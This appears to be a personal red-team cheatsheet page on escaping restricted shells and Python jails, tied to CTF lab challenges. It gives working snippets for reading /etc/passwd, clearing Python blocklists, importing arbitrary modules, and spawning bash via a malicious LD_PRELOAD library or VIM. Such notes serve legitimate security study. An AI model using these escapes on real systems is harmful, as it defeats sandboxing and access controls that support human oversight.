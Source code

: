 # Restricted Shells

[![linuxprivilegeescalation](../../../../_badges/htb/linuxprivilegeescalation.svg)](https://academy.hackthebox.com/course/preview/linux-privilege-escalation)
[![escaping_from_jails](../../../../_badges/hacktricks/escaping_from_jails.svg)](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/escaping-from-limited-bash#bash-jails)
[![bash_restricted_shells](../../../../_badges/rootme/app_script/bash_restricted_shells.svg)](https://www.root-me.org/en/Challenges/App-Script/Bash-Restricted-shells)

<div class="row row-cols-lg-2"><div>

A restricted shell such as `rbash` is a shell that restrict the action of the user to a limited list of commands/arguments. For instance, for rbash:

* we cannot use commands with pathnames containing a "/"
* we can use `help` to list available commands
* we cannot use `cd`
* more restrictions may be in place

To escape of restricted shells, we can try to use command substitution (ex: <code>ls \`pwd\`</code>), command chaining, or editing environment variables.
</div><div>

Common tricks:

* **List files**: `echo /*` and `echo /.*`
* **Read a file**: `read f < /etc/passwd; echo $f`
* **Read a file**: `f=$(</etc/passwd); echo $f`

Use `compgen -c`, `help`, or `<tab>` to list available commands.

📚 Sometimes, `ssh [...] -t "/bin/bash --noprofile"` may work.
</div></div>

<hr class="sep-both">

## Restricted Bash (rbash)

[![bash_restricted_shells](../../../../_badges/rootme/app_script/bash_restricted_shells.svg)](https://www.root-me.org/en/Challenges/App-Script/Bash-Restricted-shells)

<div class="row row-cols-lg-2"><div>

#### Enumeration

The `readonly` command is useful to list which variable you can't edit.

```shell!
$ readonly
ENV
PATH
HOME
```

You can use `declare` to get information about your environment.

```shell!
$ declare -x # remove -x to see functions
BASH_VERSINFO=([0]="4" [1]="4" [2]="20" [3]="1" [4]="release" [5]="i686-pc-linux-gnu")
BASH_VERSION='4.4.20(1)-release'
PATH=/tmp/void/
SHELLOPTS=braceexpand:emacs:hashall:histexpand:history:interactive-comments:monitor
```
</div><div>

#### Read a file

Method using `mapfile`:

```shell!
$ mapfile array < /etc/passwd
$ echo ${array[@]}
```

Method using `history`:

```shell!
$ export HISTFILE=/etc/passwd
$ history -r
$ history
```

Method using `bind`:

```shell!
$ bind -f /etc/passwd
```
</div></div>

<hr class="sep-both">

## Python Jails

*Additional reference: [python payloads](/cybersecurity/red-team/s3.exploitation/vulns/cheatsheet/payloads.md#python).*

<div class="row row-cols-lg-2"><div>

#### Python Jails Enumeration

Find variables and information about your context:

```py
globals()     # global symbols (variables, functions)
locals()      # local symbols (function, method, block)
vars()        # without any argument, same as 'locals'
```

```py
del __builtins__  # restore them
__builtins__.__dict__ # or __builtins__ if deleted
open = __builtins__.__dict__['open']
os = __builtins__.__dict__['__import__']('os')
```

Refer to [introspection](/cybersecurity/red-team/s3.exploitation/vulns/cheatsheet/payloads.md#python--deep-introspection) for a few more payloads.

#### Python File Write

[![pythonplayground](../../../../_badges/thm-p/pythonplayground.svg)](https://tryhackme.com/r/room/pythonplayground)

You can arbitrarily create files or python scripts using:

```py
print("Hello, World!", file=open("/dev/shm/poc", "w"))
print("im"+"port os\nprint(os.getcwd())", file=open("/dev/shm/poc.py", "w"))
```

#### Python File Read

You can arbitrarily read files using:

```py
file=open("/etc/passwd", "r"); print(''.join(file.readlines()))
```
```py
help('print') # :e/path/to/file
```
</div><div>

#### Python Jails Escape

[![pythonplayground](../../../../_badges/thm-p/pythonplayground.svg)](https://tryhackme.com/r/room/pythonplayground)
[![python_pyjail_2](../../../../_badges/rootme/app_script/python_pyjail_2.svg)](https://www.root-me.org/en/Challenges/App-Script/Python-PyJail-2)

Arbitrarily set a variable, such as the list of blocked commands:

```py
setattr(__import__('__main__'),'blocklist',[])
```

Try loading modules using `__import__`:

```py
__import__("os").getcwd()
```

Set the path to load arbitrary Python files:

```py
setattr(__import__("sys"), "path", list(("/dev/shm/",))) ; __import__("my_file")
__import__("sys").path.append("/dev/shm/") # better?
```

Use breakpoint or help:

```py
breakpoint() # then write any python code
help(len) # write m<cr>a<cr>|<cr>a<cr>your command<cr>q<cr>
```

Refer to [introspection](/cybersecurity/red-team/s3.exploitation/vulns/cheatsheet/payloads.md#python--deep-introspection) for a few more tricks.
</div></div>

<hr class="sep-both">

## Special Scenarios

<div class="row row-cols-lg-2"><div>

#### LD_PRELOAD

[![bash_restricted_shells](../../../../_badges/rootme/app_script/bash_restricted_shells.svg)](https://www.root-me.org/en/Challenges/App-Script/Bash-Restricted-shells)

If we have access to a program that depend on LIBC and `LD_PRELOAD`, e.g. any command aside from the builtin functions, we may be able to pop a bash. For that to be possible, we need a malicious `.so`. 

If `gcc` is available, we can easily compile one, while it's unlikely. 

```shell!
$ echo 'void _init() {' > /tmp/test.c
$ echo 'system("/bin/bash");' >> /tmp/test.c
$ echo '}' >> /tmp/test.c
$ gcc -shared -fPIC /tmp/test.c -o /tmp/test.so -nostartfiles
$ LD_PRELOAD='/tmp/test.so' gcc
```

➡️ If gcc is available, `gcc -wrapper /bin/bash,-s .` is faster.
</div><div>

#### VIM

[![bash_restricted_shells](../../../../_badges/rootme/app_script/bash_restricted_shells.svg)](https://www.root-me.org/en/Challenges/App-Script/Bash-Restricted-shells)

If you can run VIM, it's easy to escape:

```ruby!
:set shell=/bin/bash
:shell
```
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* `chroot` (chroot xxx, chroot .., chroot .)
* [chw00t](https://github.com/earthquake/chw00t)
</div><div>
</div></div>